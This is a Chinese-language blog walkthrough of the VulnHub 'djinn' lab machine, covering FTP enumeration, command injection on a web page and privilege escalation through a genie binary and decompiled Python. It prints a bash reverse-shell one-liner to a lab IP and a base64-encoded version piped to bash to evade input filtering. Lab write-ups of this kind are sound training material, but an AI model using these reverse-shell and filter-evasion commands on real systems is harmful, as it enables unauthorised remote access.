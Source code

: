 ```yaml
---
layout: post
title:  "djinn"
description: walkthrough
category: vulnhub
---
```


# djinn



![image-20200615205317501]({{ site.url }}/assets/djinn.assets/image-20200615205317501.png)

![image-20200615205617642]({{ site.url }}/assets/djinn.assets/image-20200615205617642.png)

匿名登录ftp，下载所有文件

![image-20200615210051865]({{ site.url }}/assets/djinn.assets/image-20200615210051865.png)

![image-20200615210237687]({{ site.url }}/assets/djinn.assets/image-20200615210237687.png)

得到3个线索

```bash
nitu:81299
@nitish81299
1337端口有一个游戏
```

![image-20200615210502911]({{ site.url }}/assets/djinn.assets/image-20200615210502911.png)

连接被重置。试一下命令行

```bash
nc 192.168.43.251 1337
```

![image-20200615210713538]({{ site.url }}/assets/djinn.assets/image-20200615210713538.png)

需要回答1000次？？看样需要一个脚本。

![image-20200615210914878]({{ site.url }}/assets/djinn.assets/image-20200615210914878.png)

看来只是随机的数学题，做1000次，脚本需要得到题面之后计算。先试试其他。

<img src="assets/djinn.assets/image-20200615211121579.png" alt="image-20200615211121579" style="zoom:50%;" />

一个http

正常测试

![image-20200615211443768]({{ site.url }}/assets/djinn.assets/image-20200615211443768.png)

![image-20200615211639875]({{ site.url }}/assets/djinn.assets/image-20200615211639875.png)

![image-20200615211743505]({{ site.url }}/assets/djinn.assets/image-20200615211743505.png)

虽然命令回显的是403页面，但显然，命令是被执行的。

```bash
bash -i >& /dev/tcp/192.168.43.66/1338 0>&1
```

![image-20200615212120416]({{ site.url }}/assets/djinn.assets/image-20200615212120416.png)

显然，由于一些限制，命令不能被执行，应该是限制了一些字符或命令。我们可以使用base64对命令进行编码。在注入后通过base64解码再传入bash来执行

![image-20200615212734952]({{ site.url }}/assets/djinn.assets/image-20200615212734952.png)

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjY2LzEzMzggMD4mMQo= | base64 -d | bash
```

![image-20200615212822912]({{ site.url }}/assets/djinn.assets/image-20200615212822912.png)

![image-20200615213348492]({{ site.url }}/assets/djinn.assets/image-20200615213348492.png)

![image-20200615213425972]({{ site.url }}/assets/djinn.assets/image-20200615213425972.png)

```bash
nitish:p4ssw0rdStr3r0n9
```

![image-20200615213706914]({{ site.url }}/assets/djinn.assets/image-20200615213706914.png)

![image-20200615215315359]({{ site.url }}/assets/djinn.assets/image-20200615215315359.png)

![image-20200615215458236]({{ site.url }}/assets/djinn.assets/image-20200615215458236.png)

尝试了很多命令组合，都无法让这个程序达成任何合适的状态

查阅了提示。需要看一下手册。

```bash
man /usr/bin/genie | less
```

![image-20200615221258596]({{ site.url }}/assets/djinn.assets/image-20200615221258596.png)

这个有点过分。。。

![image-20200615221403904]({{ site.url }}/assets/djinn.assets/image-20200615221403904.png)

![image-20200615221830360]({{ site.url }}/assets/djinn.assets/image-20200615221830360.png)

显然又是一个。

在用户目录下发现了这个python脚本的编译后的文件

![image-20200615223218574]({{ site.url }}/assets/djinn.assets/image-20200615223218574.png)

![image-20200615222903612]({{ site.url }}/assets/djinn.assets/image-20200615222903612.png)

python有一个uncompyle6可以帮助我们还原.pyc的代码https://pypi.org/project/uncompyle6/

![image-20200615223745408]({{ site.url }}/assets/djinn.assets/image-20200615223745408.png)

![image-20200615224452587]({{ site.url }}/assets/djinn.assets/image-20200615224452587.png)

![image-20200615224824140]({{ site.url }}/assets/djinn.assets/image-20200615224824140.png)



![image-20200615222755918]({{ site.url }}/assets/djinn.assets/image-20200615222755918.png)